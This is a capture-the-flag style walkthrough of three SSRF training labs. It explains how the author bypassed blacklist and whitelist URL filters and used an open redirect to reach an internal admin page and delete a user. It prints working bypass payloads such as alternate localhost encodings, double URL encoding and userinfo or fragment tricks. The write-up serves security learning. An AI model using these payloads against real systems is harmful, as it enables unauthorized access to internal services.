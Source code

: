 # Circumventing common SSRF defenses

## Labs #3: SSRF with blacklist-based input filter

> This lab has a stock check feature which fetches data from an internal system.
>
> To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.
>
> The developer has deployed two weak anti-SSRF defenses that you will need to bypass. 

Check stock request 

![3f736c1b35844b75cfa23310e59a0c3f.png](../_resources/e67630be458c47369001090cfce3bdbb.png)


Check stock endpoint

```
http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=1
```


There's three types of error in this application

1. Missing parameter
![0b0cc6e6546a098161ab380641e82115.png](../_resources/012ff7f2b091469493104fcf6db8b0ed.png)

	URL that returns missing parameter error

	- http://stock.weliketoshop.net:8080/


2. Blocked external request
![9db1764171ce1af3f5bf9e1ed26d55d2.png](../_resources/294f165753bc4579902ff3686950514d.png)

	URL that returns blocked external request
	- http://localhost/
	- http://127.0.0.1/

3. Internal server error
![9ba828dcb86dce135baa32fa34d8a284.png](../_resources/0b6faaf4ee7a406e9b78092f10d3c0e3.png)

	URL that returns internal server error  
	- http://[::1]/

List of URLs that bypassed the whitelist

- http://2130706433/
- http://017700000001/
- http://127.1/


Adding `/admin` returns `"External stock check blocked for security reasons"`, means there are 2 step filter.

The first is hostname filter and the second one is any path contains `admin`.

![94ced21ba74b6f3b0edeaf3c990883d3.png](../_resources/fa8c2ad25dbc4875bbc6870f2812be6d.png)


Obfuscating the `/admin` using double url encoding `%2561dmin` successfully bypassed the second filter.

`%2561dmin` => `%61dmin` => `admin`

![2ce9c7b2122f7d8c2e64da32b900df42.png](../_resources/3e3b72b3cdef4be5b9ce529fe23efad2.png)

Delete user carlos with `http://127.1/%2561dmin/delete?username=carlos`

![20c488d561a8e15f48d20a475837ab4b.png](../_resources/11eaef4f3581413dab77dfa745465ae4.png)

## Lab #4: SSRF with whitelist-based input filter

> This lab has a stock check feature which fetches data from an internal system.
> 
> To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.
> 
> The developer has deployed an anti-SSRF defense you will need to bypass. 

Observing how the server handle parse the given URL

![bd7471d20cd1929d859787f58483d43e.png](../_resources/29a9dfad02d842298467d184db5e3efa.png)

Inserting this url to `stockApi` returns the same error
```
http://stock.weliketoshop.net:8080@localhost/
```

![2d26042af9eb98d9bbb591b817132b42.png](../_resources/465efc6debfb4394beab5fb37f7641f0.png)

This means the server url parser read `stock.weliketoshop.net:8080`(green line) as embedded credentials to `localhost` (red line) where

- `stock.weliketoshop.net` is the username
- `8080` is the password

![728c504989f2e9166e2481a6dad12820.png](../_resources/bb76805e03b94b8a8abe3d8a37bd1107.png)

Example of how [PHP function](https://www.php.net/manual/en/function.parse-url.php) parse the following url :
```
http://admin:pass123@google.com:9000/search?q=cat#home
```
- scheme => `http://`
- user => `admin`
- pass => `pass123`
- host => `google.com`
- port => `9000`
- path => `/search`
- query => `q=cat`
- fragment => `home`


By swapping the position between `stock.weliketoshop.net:8080` and `localhost` 

```
http://localhost@stock.weliketoshop.net:8080/
```

The server parse `localhost` as the credential embedded with no password to `stock.weliketoshop.net`.

![b8ca56c55a3f6f90a3440aa42c94ff64.png](../_resources/f691f15d666d4868bf921807b93fc064.png)

Now we can try adding a URL fragment in front of localhost.

From [RFC 3986](https://tools.ietf.org/html/rfc3986#section-3.5):
> *The fragment identifier component of a **URI allows indirect identification** of a **secondary resource by reference** to a primary resource and **additional identifying information*** 
  
Consider the following url:

```
http://localhost#@stock.weliketoshop.net:8080/
```

The server then might parse it to:
- scheme => `http`
- host => `localhost`
- fragment => `@stock.weliketoshop.net:8080`

At this time the `localhost` should be blacklisted by the app, but when it comes to the fragment part, it should be dereferenced by a browser to fetch the additional information

From [Wikipedia](https://en.wikipedia.org/wiki/URL):
> A web browser will usually dereference a URL by performing an HTTP request to the specified host, by default on port number 80. URLs using the https scheme require that requests and responses be made over a secure connection to the website. 

- http://localhost (primary resource)
- stock.weliketoshop.net:8080/ (secondary resource)


With a bit of obfuscation

```
(denied) http://localhost#@stock.weliketoshop.net:8080 
(accepted) http://localhost%2523@stock.weliketoshop.net:8080 
```

![61ae36def1f3ed444bf159db032c17df.png](../_resources/338ecb86367046edb4cbf492fc68c74f.png)

I successfully deleted carlos

![9673d872b1e4ace6d883541b8c9976b1.png](../_resources/549ba68480c64c86aca58fbe7a16ffcc.png)

Experiment checkout the experiment code in scripts folder


## Lab #5: SSRF with filter bypass via open redirection vulnerability

> This lab has a stock check feature which fetches data from an internal system.
>
> To solve the lab, change the stock check URL to access the admin interface at http://192.168.0.12:8080/admin and delete the user carlos.
> 
> The stock checker has been restricted to only access the local application, so you will need to find an open redirect affecting the application first. 

![db9297b407e9624b78ffc36678e8bc8e.png](../_resources/9e062664fa59490a8385ab60cdbeb053.png)

Modify the `path` to force it redirects to `http://192.168.0.12:8080/admin`

![babd7caa509bfe21227a9db97912ff93.png](../_resources/4df0fc3b26b0494292ea86ec65f0b6cd.png)

Unfortunately, the `http://192.168.0.12:8080/admin` won't resolve in my browser because it's on different realm,

Went back to compare stockApi value and the next product value

stockApi:
```
stockApi=/product/stock/check?productId=3&storeId=1
```

nextProduct:
```
/product/nextProduct?currentProductId=3&path=/product?productId=4
``` 

Try to injecting stockApi with nextProduct URI.

```
stockApi=/product/nextProduct?currentProductId=3&path=/product?productId=4
```

It returns "Missing parameter 'path'" error

![03b142c0b7fd31e958e6c38a6b6093b0.png](../_resources/59ea554c73544abc955ae50539a67210.png)

It works after decoded the `&` symbol to `%26`
```
stockApi=/product/nextProduct?currentProductId=3%26path=/product?productId=4

```

![f0dab07eac8aaf74c3dd830f8172c6da.png](../_resources/2a885bd8fa4542569965314469a25786.png)


Successfully loaded the admin page.

![3813d821ea8bf839d4c42b0bc3e62587.png](../_resources/b1f99e993b2b4124ab48497712ada929.png)


Now user `carlos` can be deleted using this payload.

```
stockApi=/product/nextProduct?currentProductId=3%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```